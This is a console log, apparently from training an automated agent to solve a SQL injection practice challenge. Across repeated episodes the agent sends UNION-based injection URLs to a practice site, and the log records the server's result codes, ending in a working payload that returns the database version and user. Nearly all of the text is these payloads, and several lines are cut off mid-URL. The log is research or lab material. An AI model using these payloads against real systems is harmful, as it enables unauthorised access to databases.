  0%|          | 1647/1000000 [9:51:11<1492:35:50,  5.38s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union

  0%|          | 1648/1000000 [9:51:29<2486:06:18,  8.96s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1649/1000000 [9:51:31<1903:59:33,  6.87s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user() --
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user() --
https://zixem.altervist

  0%|          | 1650/1000000 [9:52:35<6724:45:25, 24.25s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3


  0%|          | 1651/1000000 [9:54:42<15248:36:16, 54.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1652/1000000 [9:54:43<10755:51:34, 38.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1653/1000000 [9:54:44<7607:06:37, 27.43s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1--
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQL

  0%|          | 1654/1000000 [9:56:01<11749:28:51, 42.37s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1655/1000000 [9:56:03<8392:19:01, 30.26s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union

  0%|          | 1656/1000000 [9:56:10<6463:30:59, 23.31s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1657/1000000 [9:56:12<4688:43:25, 16.91s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1658/1000000 [9:56:13<3364:33:36, 12.13s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1659/1000000 [9:56:14<2435:23:16,  8.78s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1660/1000000 [9:56:15<1787:06:01,  6.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1661/1000000 [9:56:16<1327:10:34,  4.79s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1662/1000000 [9:56:17<1005:14:13,  3.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1

  0%|          | 1663/1000000 [9:58:47<13141:25:39, 47.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3


  0%|          | 1664/1000000 [9:59:23<12195:13:01, 43.98s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1665/1000000 [9:59:24<8612:48:56, 31.06s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2--
Query with differenc number of column
Server response is 4
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server respo

  0%|          | 1666/1000000 [10:00:09<9830:50:18, 35.45s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1667/1000000 [10:00:10<6957:35:04, 25.09s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'uni

  0%|          | 1668/1000000 [10:01:02<9147:56:48, 32.99s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1669/1000000 [10:01:03<6555:10:17, 23.64s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1670/1000000 [10:01:04<4669:04:11, 16.84s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1671/1000000 [10:01:05<3344:17:57, 12.06s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1672/1000000 [10:01:06<2418:36:43,  8.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1673/1000000 [10:01:07<1774:07:02,  6.40s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1674/1000000 [10:01:08<1319:21:14,  4.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1675/1000000 [10:01:09<1005:20:10,  3.63s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1676/1000000 [10:01:10<794:50:44,  2.87s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1677/1000000 [10:01:11<637:05:32,  2.30s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,version() --
Syntax error. Server response 3
Server response is 3
 'union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query 

  0%|          | 1678/1000000 [10:01:20<1171:30:25,  4.22s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1679/1000000 [10:01:21<895:05:39,  3.23s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3,4,5 --
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3 --
Nothing reponse
Server response is -1
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1680/1000000 [10:01:26<1042:06:03,  3.76s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 'union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Serv

  0%|          | 1681/1000000 [10:01:33<1355:26:07,  4.89s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1682/1000000 [10:01:34<1031:28:40,  3.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1683/1000000 [10:01:35<796:56:15,  2.87s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1684/1000000 [10:01:36<632:19:19,  2.28s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1685/1000000 [10:01:37<519:38:33,  1.87s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 union select version(),user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select version(),user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Se

  0%|          | 1686/1000000 [10:02:17<3708:31:58, 13.37s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 and 1=2 union select 1,2,3--
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,2,3--
Nothing reponse
Server response is -1
 ' and 1=2 union select 1,user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,u

  0%|          | 1687/1000000 [10:04:02<11291:03:11, 40.72s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1688/1000000 [10:04:03<7987:21:03, 28.80s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1689/1000000 [10:04:04<5668:03:11, 20.44s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1690/1000000 [10:04:06<4142:08:56, 14.94s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1691/1000000 [10:04:08<3059:34:43, 11.03s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1692/1000000 [10:04:09<2219:18:07,  8.00s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select version(),user(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Synt

  0%|          | 1693/1000000 [10:04:22<2633:16:21,  9.50s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,2,3,4,5--
Query with differenc number of column
Server response is 4
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1694/1000000 [10:04:26<2184:16:19,  7.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version(),3,4 --
Query with differenc number of column
Server response is 4
 'union select version(),user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select version(),user() --
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,version(),3,4,5 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,version(),3,4,5 --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 and 1=2 union select 1,user(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select 1,user(),3,4 --
Query with differenc number of column
Server response is 4
 'union select 1,version(),3,4 --
https://zixem.alt

  0%|          | 1695/1000000 [10:04:51<3603:38:36, 13.00s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1696/1000000 [10:04:52<2605:13:57,  9.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1697/1000000 [10:04:53<1906:38:42,  6.88s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1698/1000000 [10:04:54<1410:01:30,  5.08s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1699/1000000 [10:04:54<1061:47:48,  3.83s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1700/1000000 [10:04:55<821:02:46,  2.96s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1701/1000000 [10:04:56<652:28:04,  2.35s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1702/1000000 [10:04:57<532:22:51,  1.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1703/1000000 [10:04:58<449:32:41,  1.62s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1704/1000000 [10:04:59<392:30:23,  1.42s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1705/1000000 [10:05:00<349:10:28,  1.26s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 union select 1,version() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,version() --
Query with differenc number of column
Server response is 4
 ' and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select version(),user(),3 --
Syntax error. Server response 3
Server response is 3
 ' and 1=2 union select 1,2--
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,2--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--


  0%|          | 1706/1000000 [10:05:18<1709:28:38,  6.16s/it]

Correct exploratory version of the escape. I return 2
Server response is 2
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1707/1000000 [10:05:20<1363:45:02,  4.92s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1708/1000000 [10:05:21<1030:13:32,  3.72s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1709/1000000 [10:05:21<801:37:19,  2.89s/it] 

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,version(),3,4 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,version(),3,4 --
Syntax error. Server response 3
Server response is 3
 'union select 1,2,3,4,5--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1,2,3,4,5--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server response is 3
 union select 1,user() --
https://zixem.altervista.org/SQLi/level1.php?id=1 union select 1,user() --
Query with differenc number of column
Server response is 4
 'union select 1--
https://zixem.altervista.org/SQLi/level1.php?id=1 'union select 1--
Syntax error. Server response 3
Server respo

  0%|          | 1710/1000000 [10:09:53<23128:47:39, 83.41s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1711/1000000 [10:09:54<16281:21:10, 58.71s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 and 1=2 union select version(),user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 and 1=2 union select version(),user(),3 --


  0%|          | 1712/1000000 [10:09:55<11478:14:24, 41.39s/it]

Correct exploratory user of the challenge. I return 1
Server response is 1
Env reset
 ' and 1=2 union select 1,user(),3 --
https://zixem.altervista.org/SQLi/level1.php?id=1 ' and 1=2 union select 1,user(),3 --
Syntax error. Server response 3
Server response is 3
 'union select 1--
